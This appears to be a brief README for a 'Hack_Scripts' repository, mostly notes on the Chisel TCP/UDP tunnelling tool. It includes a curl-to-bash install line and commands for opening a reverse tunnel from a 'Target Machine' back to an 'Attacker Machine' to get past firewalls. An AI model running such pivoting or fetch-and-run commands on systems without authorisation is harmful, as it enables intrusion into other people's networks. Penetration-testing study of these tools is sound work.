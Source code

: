 # Hack_Scripts

The Scripts for Hacking and general ,
Includes python2  and Java
  --> Java
  --> Python
  --> Php

# CHISEL

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

See the latest release or download and install it now with curl https://i.jpillora.com/chisel! | bash

# Usage

$chisel --help
  Usage: chisel [command] [--help]
  
  Version: X.Y.Z
  
  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode
    
  Read more:
    https://github.com/jpillora/chisel
    
 chisel server -p 9000 --reverse -v   >> Run in Attacker Machine
 chisel client <attacker ip:port{differnt port}> R:<attacker ip:port{different port1}>:<localhost:port{running port, need to be forwarded}>   >> Run in Target Machine
 

# 
